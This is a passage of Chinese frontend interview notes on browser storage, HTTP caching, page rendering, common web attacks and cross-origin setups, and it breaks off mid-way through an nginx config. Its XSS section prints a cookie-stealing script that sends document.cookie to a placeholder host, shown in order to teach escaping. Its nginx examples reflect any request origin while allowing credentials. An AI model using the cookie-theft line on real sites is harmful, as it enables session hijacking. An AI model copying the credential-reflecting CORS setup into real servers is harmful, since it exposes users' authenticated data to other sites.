## 储存

> 涉及面试题：有几种方式可以实现存储功能，分别有什么优缺点？什么是 `Service Worker`？

**cookie，localStorage，sessionStorage，indexDB**

| 特性         | cookie                                       | localStorage             | sessionStorage | indexDB                  |
| ------------ | -------------------------------------------- | ------------------------ | -------------- | ------------------------ |
| 数据生命周期 | 一般由服务器生成，可以设置过期时间           | 除非被清理，否则一直存在 | 页面关闭就清理 | 除非被清理，否则一直存在 |
| 数据存储大小 | `4KB`                                        | `5M`                     | `5M`           | 无限                     |
| 与服务端通信 | 每次都会携带在 `header` 中，对于请求性能影响 | 不参与                   | 不参与         | 不参与                   |

> 从上表可以看到，`cookie` 已经不建议用于存储。如果没有大量数据存储需求的话，可以使用 `localStorage` 和 `sessionStorage` 。对于不怎么改变的数据尽量使用 `localStorage` 存储，否则可以用 `sessionStorage`存储

**对于 cookie 来说，我们还需要注意安全性。**

| 属性        | 作用                                                           |
| ----------- | -------------------------------------------------------------- |
| `value`     | 如果用于保存用户登录态，应该将该值加密，不能使用明文的用户标识 |
| `http-only` | 不能通过 `JS` 访问 `Cookie`，减少 `XSS` 攻击                   |
| `secure`    | 只能在协议为 `HTTPS` 的请求中携带                              |
| `same-site` | 规定浏览器不能在跨域请求中携带 `Cookie`，减少 `CSRF` 攻击      |

**Service Worker**

- `Service Worker` 是运行在浏览器背后的独立线程，一般可以用来实现缓存功能。使用 `Service Worker`的话，传输协议必须为 `HTTPS`。因为 `Service Worker` 中涉及到请求拦截，所以必须使用 `HTTPS` 协议来保障安全
- `Service Worker` 实现缓存功能一般分为三个步骤：首先需要先注册 `Service Worker`，然后监听到 `install` 事件以后就可以缓存需要的文件，那么在下次用户访问的时候就可以通过拦截请求的方式查询是否存在缓存，存在缓存的话就可以直接读取缓存文件，否则就去请求数据。以下是这个步骤的实现：

```
  // index.js
  if (navigator.serviceWorker) {
    navigator.serviceWorker.register('sw.js').then(function(registration) {
      console.log('service worker 注册成功')
    }).catch(function(err) {
      console.log('servcie worker 注册失败')
    })
  } // sw.js
  // 监听 `install` 事件，回调中缓存所需文件
  self.addEventListener('install', e => {
    e.waitUntil( caches.open('my-cache').then(function(cache) {
      return cache.addAll(['./index.html', './index.js'])
      })
    )
  })

  // 拦截所有请求事件
  // 如果缓存中已经有请求的数据就直接用缓存，否则去请求数据
  self.addEventListener('fetch', e => {
    e.respondWith( caches.match(e.request).then(function(response) {
      if (response) {
        return response
      }
      console.log('fetch source')
    }))
  })
```

> 打开页面，可以在开发者工具中的 `Application` 看到 `Service Worker` 已经启动了在 `Cache` 中也可以发现我们所需的文件已被缓存



> 当我们重新刷新页面可以发现我们缓存的数据是从 `Service Worker` 中读取的

## 浏览器缓存机制

> 注意：该知识点属于性能优化领域，并且整一章节都是一个面试题

- 缓存可以说是性能优化中简单高效的一种优化方式了，它可以显著减少网络传输所带来的损耗。
- 对于一个数据请求来说，可以分为发起网络请求、后端处理、浏览器响应三个步骤。浏览器缓存可以帮助我们在第一和第三步骤中优化性能。比如说直接使用缓存而不发起请求，或者发起了请求但后端存储的数据和前端一致，那么就没有必要再将数据回传回来，这样就减少了响应数据。

> 接下来的内容中我们将通过以下几个部分来探讨浏览器缓存机制：

- 缓存位置
- 缓存策略
- 实际场景应用缓存策略

**1. 缓存位置**

> 从缓存位置上来说分为四种，并且各自有优先级，当依次查找缓存且都没有命中的时候，才会去请求网络

1. `Service Worker`
2. `Memory Cache`
3. `Disk Cache`
4. `Push Cache`
5. 网络请求

**1.1 Service Worker**

- `service Worker` 的缓存与浏览器其他内建的缓存机制不同，它可以让我们自由控制缓存哪些文件、如何匹配缓存、如何读取缓存，并且缓存是持续性的。
- 当 `Service Worker` 没有命中缓存的时候，我们需要去调用 `fetch` 函数获取数据。也就是说，如果我们没有在 `Service Worker` 命中缓存的话，会根据缓存查找优先级去查找数据。但是不管我们是从 `Memory Cache` 中还是从网络请求中获取的数据，浏览器都会显示我们是从 `Service Worker` 中获取的内容。

**1.2 Memory Cache**

- `Memory Cache` 也就是内存中的缓存，读取内存中的数据肯定比磁盘快。但是内存缓存虽然读取高效，可是缓存持续性很短，会随着进程的释放而释放。 一旦我们关闭 `Tab` 页面，内存中的缓存也就被释放了。
- 当我们访问过页面以后，再次刷新页面，可以发现很多数据都来自于内存缓存



> 那么既然内存缓存这么高效，我们是不是能让数据都存放在内存中呢？

- 先说结论，这是不可能的。首先计算机中的内存一定比硬盘容量小得多，操作系统需要精打细算内存的使用，所以能让我们使用的内存必然不多。内存中其实可以存储大部分的文件，比如说 `JS`、`HTML`、`CSS`、图片等等
- 当然，我通过一些实践和猜测也得出了一些结论：
- 对于大文件来说，大概率是不存储在内存中的，反之优先当前系统内存使用率高的话，文件优先存储进硬盘

**1.3 Disk Cache**

- `Disk Cache` 也就是存储在硬盘中的缓存，读取速度慢点，但是什么都能存储到磁盘中，比之 `Memory Cache` 胜在容量和存储时效性上。
- 在所有浏览器缓存中，`Disk Cache` 覆盖面基本是最大的。它会根据 `HTTP Herder` 中的字段判断哪些资源需要缓存，哪些资源可以不请求直接使用，哪些资源已经过期需要重新请求。并且即使在跨站点的情况下，相同地址的资源一旦被硬盘缓存下来，就不会再次去请求数据

**1.4 Push Cache**

- `Push Cache` 是 `HTTP/2` 中的内容，当以上三种缓存都没有命中时，它才会被使用。并且缓存时间也很短暂，只在会话（`Session`）中存在，一旦会话结束就被释放。
- `Push Cache` 在国内能够查到的资料很少，也是因为 `HTTP/2` 在国内不够普及，但是 `HTTP/2` 将会是日后的一个趋势

> 结论

- 所有的资源都能被推送，但是 `Edge` 和 `Safari` 浏览器兼容性不怎么好
- 可以推送 `no-cache` 和 `no-store` 的资源
- 一旦连接被关闭，`Push Cache` 就被释放
- 多个页面可以使用相同的 `HTTP/2` 连接，也就是说能使用同样的缓存
- `Push Cache` 中的缓存只能被使用一次
- 浏览器可以拒绝接受已经存在的资源推送
- 你可以给其他域名推送资源

**1.5 网络请求**

- 如果所有缓存都没有命中的话，那么只能发起请求来获取资源了。
- 那么为了性能上的考虑，大部分的接口都应该选择好缓存策略，接下来我们就来学习缓存策略这部分的内容

**2 缓存策略**

> 通常浏览器缓存策略分为两种：强缓存和协商缓存，并且缓存策略都是通过设置 `HTTP Header` 来实现的

**2.1 强缓存**

> 强缓存可以通过设置两种 `HTTP Header` 实现：`Expires` 和 `Cache-Control` 。强缓存表示在缓存期间不需要请求，`state code` 为 `200`

**Expires**

    Expires: Wed, 22 Oct 2018 08:41:00 GMT

> `Expires` 是 `HTTP/1` 的产物，表示资源会在 `Wed, 22 Oct 2018 08:41:00 GMT` 后过期，需要再次请求。并且 `Expires` 受限于本地时间，如果修改了本地时间，可能会造成缓存失效。

**Cache-control**

    Cache-control: max-age=30

- `Cache-Control` 出现于 `HTTP/1.1`，优先级高于 `Expires` 。该属性值表示资源会在 `30` 秒后过期，需要再次请求。
- `Cache-Control` 可以在请求头或者响应头中设置，并且可以组合使用多种指令



> 从图中我们可以看到，我们可以将多个指令配合起来一起使用，达到多个目的。比如说我们希望资源能被缓存下来，并且是客户端和代理服务器都能缓存，还能设置缓存失效时间等

**一些常见指令的作用**



**2.2 协商缓存**

- 如果缓存过期了，就需要发起请求验证资源是否有更新。协商缓存可以通过设置两种 `HTTP Header` 实现：`Last-Modified` 和 `ETag`
- 当浏览器发起请求验证资源时，如果资源没有做改变，那么服务端就会返回 `304` 状态码，并且更新浏览器缓存有效期。



**Last-Modified 和 If-Modified-Since**

> `Last-Modified` 表示本地文件最后修改日期，`If-Modified-Since` 会将 `Last-Modified` 的值发送给服务器，询问服务器在该日期后资源是否有更新，有更新的话就会将新的资源发送回来，否则返回 `304` 状态码。

但是 `Last-Modified` 存在一些弊端：

- 如果本地打开缓存文件，即使没有对文件进行修改，但还是会造成 `Last-Modified` 被修改，服务端不能命中缓存导致发送相同的资源
- 因为 `Last-Modified` 只能以秒计时，如果在不可感知的时间内修改完成文件，那么服务端会认为资源还是命中了，不会返回正确的资源 因为以上这些弊端，所以在 `HTTP / 1.1` 出现了 `ETag`

**ETag 和 If-None-Match**

- `ETag` 类似于文件指纹，`If-None-Match` 会将当前 `ETag` 发送给服务器，询问该资源 `ETag` 是否变动，有变动的话就将新的资源发送回来。并且 `ETag` 优先级比 `Last-Modified` 高。

> 以上就是缓存策略的所有内容了，看到这里，不知道你是否存在这样一个疑问。如果什么缓存策略都没设置，那么浏览器会怎么处理？

对于这种情况，浏览器会采用一个启发式的算法，通常会取响应头中的 `Date` 减去 `Last-Modified` 值的 `10%` 作为缓存时间。

**2.3 实际场景应用缓存策略**

**频繁变动的资源**

> 对于频繁变动的资源，首先需要使用 `Cache-Control: no-cache` 使浏览器每次都请求服务器，然后配合 `ETag` 或者 `Last-Modified` 来验证资源是否有效。这样的做法虽然不能节省请求数量，但是能显著减少响应数据大小。

**代码文件**

> 这里特指除了 `HTML` 外的代码文件，因为 `HTML` 文件一般不缓存或者缓存时间很短。

一般来说，现在都会使用工具来打包代码，那么我们就可以对文件名进行哈希处理，只有当代码修改后才会生成新的文件名。基于此，我们就可以给代码文件设置缓存有效期一年 `Cache-Control: max-age=31536000`，这样只有当 `HTML` 文件中引入的文件名发生了改变才会去下载最新的代码文件，否则就一直使用缓存

> 更多缓存知识详解 http://blog.poetries.top/2019/01/02/browser-cache

## 从输入 URL 到网页显示的完整过程

- **网络请求**
  - `DNS`查询（得到`IP`)，建立`TCP`连接（三次握手）
  - 浏览器发送`HTTP`请求
  - 收到请求响应，得到`HTML`源码。继续请求静态资源
    - 在解析`HTML`过程中，遇到静态资源（`JS`、`CSS`、图片等）还会继续发起网络请求
    - 静态资源可能有缓存
- **解析：字符串=\>结构化数据**
  - `HTML`构建`DOM`树
  - `CSS`构建`CSSOM`树（`style tree`）
  - 两者结合，形成`render tree`
  - 优化解析
    - `CSS`放在`<head/>`中，不要异步加载`CSS`
    - `JS`放到`<body/>`下面，不阻塞`HTML`解析（或结合`defer`、`async`）
    - ``提前定义`width`、`height`，避免页面重新渲染
- **渲染：Render Tree 绘制到页面**
  - 计算`DOM`的尺寸、定位，最后绘制到页面
  - 遇到`JS`会执行，阻塞`HTML`解析。如果设置了`defer`，则并行下载`JS`，等待`HTML`解析完，在执行`JS`；如果设置了`async`，则并行下载`JS`，下载完立即执行，在继续解析`HTML`（`JS`是单线程的，`JS`执行和`DOM`渲染互斥，等`JS`执行完，在解析渲染`DOM`）
  - 异步`CSS`、异步图片，可能会触发重新渲染



**连环问：网页重绘 repaint 和重排 reflow 有什么区别**

- **重绘**
  - 元素外观改变：如颜色、背景色
  - 但元素的尺寸、定位不变，不会影响其他元素的位置
- **重排**
  - 重新计算尺寸和布局，可能会影响其他元素的位置
  - 如元素高度的增加，可能会使相邻的元素位置改变
  - 重排必定触发重绘，重绘不一定触发重排。重绘的开销较小，重排的代价较高。
  - **减少重排的方法**
    - 使用`BFC`特性，不影响其他元素位置
    - 频繁触发（`resize`、`scroll`）使用节流和防抖
    - 使用`createDocumentFragment`批量操作`DOM`
    - 编码上，避免连续多次修改，可通过合并修改，一次触发
    - 对于大量不同的 `dom` 修改，可以先将其脱离文档流，比如使用绝对定位，或者 `display:none`，在文档流外修改完成后再放回文档里中
    - 动画实现的速度的选择，动画速度越快，回流次数越多，也可以选择使用 `requestAnimationFrame`
    - `css3` 硬件加速，`transform`、`opacity`、`filters`，开启后，会新建渲染层

## 常见的 web 前端攻击方式有哪些

**XSS**

- `Cross Site Script` 跨站脚本攻击
- 手段：黑客将 JS 代码插入到网页内容中，渲染时执行`JS`代码
- 预防：特殊字符串替换（前端或后端）

```
  // 用户提交
  const str = `<p>123123</p> <script> var img = document.createElement('image') // 把cookie传递到黑客网站 img可以跨域 img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie </script>`
  const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
  // 替换字符，无法在页面中渲染
  // &lt;script&gt;

  var img = document.createElement('image')
  img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie
  // &lt;/script&gt;
```

**CSRF**

- `Cross Site Request Forgery` 跨站请求伪造
- 手段：黑盒诱导用户去访问另一个网站的接口，伪造请求
- 预防：严格的跨域限制 + 验证码机制
  - 判断 `referer`
  - 为`cookie`设置`sameSite`属性，禁止第三方网页跨域的请求能携带上`cookie`
  - 使用`token`
  - 关键接口使用短信验证码

> 注意：偷取`cookie`是`XSS`做的事，`CSRF`的作用是借用`cookie`，并不能获取`cookie`

**CSRF 攻击攻击原理及过程如下：**

- 用户登录了`A`网站，有了`cookie`
- 黑盒诱导用户到`B`网站，并发起`A`网站的请求
- `A`网站的`API`发现有`cookie`，会在请求中携带`A`网站的`cookie`，认为是用户自己操作的

**点击劫持**

- 手段：诱导界面上设置透明的`iframe`，诱导用户点击
- 预防：让`iframe`不能跨域加载



**DDOS**

- `Distribute denial-of-service` 分布式拒绝服务
- 手段：分布式的大规模的流量访问，使服务器瘫痪
- 预防：软件层不好做，需硬件预防（如阿里云的`WAF` 购买高防）

**SQL 注入**

- 手段：黑客提交内容时，写入`sql`语句，破坏数据库
- 预防：处理内容的输入，替换特殊字符

## 跨域方案

> 因为浏览器出于安全考虑，有同源策略。也就是说，如果`协议`、`域名`、`端口`有一个不同就是跨域，`Ajax` 请求会失败。

我们可以通过以下几种常用方法解决跨域的问题

**4.1 JSONP**

> `JSONP` 的原理很简单，就是利用 `<script>` 标签没有跨域限制的漏洞。通过 `<script>` 标签指向一个需要访问的地址并提供一个回调函数来接收数据

**涉及到的端**

`JSONP` 需要服务端和前端配合实现。

    <script src="http://domain/api?param1=a&param2=b&callback=jsonp"></script>
    <script> function jsonp(data) { console.log(data) } </script>

> `JSONP` 使用简单且兼容性不错，但是**只限于 `get` 请求**

**具体实现方式**

- 在开发中可能会遇到多个 `JSONP` 请求的回调函数名是相同的，这时候就需要自己封装一个 `JSONP`，以下是简单实现

```
  function jsonp(url, jsonpCallback, success) {
    let script = document.createElement("script");
    script.src = url;
    script.async = true;
    script.type = "text/javascript";
    window[jsonpCallback] = function(data) {
      success && success(data);
    };
    document.body.appendChild(script);
  }
  jsonp( "http://xxx", "callback", function(value) {
    console.log(value);
  });
```

**4.2 CORS**

> `CORS` （Cross-Origin Resource Sharing，跨域资源共享） 是目前最为广泛的解决跨域问题的方案。方案依赖服务端/后端在响应头中添加 Access-Control-Allow-\* 头，告知浏览器端通过此请求

**涉及到的端**

> `CORS` 只需要服务端/后端支持即可，不涉及前端改动

- `CORS`需要浏览器和后端同时支持。`IE 8` 和 `9` 需要通过 `XDomainRequest` 来实现。
- 浏览器会自动进行 `CORS` 通信，实现`CORS`通信的关键是后端。只要后端实现了 `CORS`，就实现了跨域。
- 服务端设置 `Access-Control-Allow-Origin` 就可以开启 `CORS`。 该属性表示哪些域名可以访问资源，如果设置通配符则表示所有网站都可以访问资源。

`CORS` 实现起来非常方便，只需要增加一些 `HTTP` 头，让服务器能声明允许的访问来源

只要后端实现了 `CORS`，就实现了跨域



以 `koa`框架举例

添加中间件，直接设置`Access-Control-Allow-Origin`请求头

    app.use(async (ctx, next)=> {
      ctx.set('Access-Control-Allow-Origin', '*');
      ctx.set('Access-Control-Allow-Headers', 'Content-Type, Content-Length, Authorization, Accept, X-Requested-With , yourHeaderFeild');
      ctx.set('Access-Control-Allow-Methods', 'PUT, POST, GET, DELETE, OPTIONS');
      if (ctx.method == 'OPTIONS') {
        ctx.body = 200;
      } else {
        await next();
      }
    })

**具体实现方式**

`CORS` 将请求分为简单请求（Simple Requests）和需预检请求（Preflighted requests），不同场景有不同的行为

- **简单请求** ：不会触发预检请求的称为简单请求。当请求满足以下条件时就是一个简单请求：
  - 请求方法：`GET`、`HEAD`、`POST`。
  - 请求头：`Accept`、`Accept-Language`、`Content-Language`、`Content-Type`。
    - `Content-Type` 仅支持：`application/x-www-form-urlencoded`、`multipart/form-data`、`text/plain`
- **需预检请求** ：当一个请求不满足以上简单请求的条件时，浏览器会自动向服务端发送一个 `OPTIONS` 请求，通过服务端返回的`Access-Control-Allow-*` 判定请求是否被允许

`CORS` 引入了以下几个以 `Access-Control-Allow-*` 开头：

- `Access-Control-Allow-Origin` 表示允许的来源
- `Access-Control-Allow-Methods` 表示允许的请求方法
- `Access-Control-Allow-Headers` 表示允许的请求头
- `Access-Control-Allow-Credentials` 表示允许携带认证信息

当请求符合响应头的这些条件时，浏览器才会发送并响应正式的请求

**4.3 nginx 反向代理**

反向代理只需要服务端/后端支持，几乎不涉及前端改动，只用切换接口即可

**nginx 配置跨域，可以为全局配置和单个代理配置(两者不能同时配置)**

1.  **全局配置** ，在`nginx.conf`文件中的 `http` 节点加入跨域信息

```
    http {

      # 跨域配置

      add_header 'Access-Control-Allow-Origin' '$http_origin' ;
      add_header 'Access-Control-Allow-Credentials' 'true' ;
      add_header 'Access-Control-Allow-Methods' 'PUT,POST,GET,DELETE,OPTIONS' ;
      add_header 'Access-Control-Allow-Headers' 'Content-Type,Content-Length,Authorization,Accept,X-Requested-With' ;
    }
```

2.  **局部配置**（单个代理配置跨域）, 在路径匹配符中加入跨域信息

```
    server {
      listen 8080;
      server_name server_name;

      charset utf-8;

      location / {
        # 这里配置单个代理跨域，跨域配置
        add_header 'Access-Control-Allow-Origin' '$http_origin' ;
        add_header 'Access-Control-Allow-Credentials' 'true' ;
        add_header 'Access-Control-Allow-Methods' 'PUT,POST,GET,DELETE,OPTIONS' ;
        add_header 'Access-Control-Allow-Headers' 'Content-Type,Content-Length,Authorization,Accept,X-Requested-With' ;

          #配置代理 代理到本机服务端口
          proxy_pass http://127.0.0.1:9000;
          proxy_redirect   off;
          proxy_set_header Host $host:$server_port;
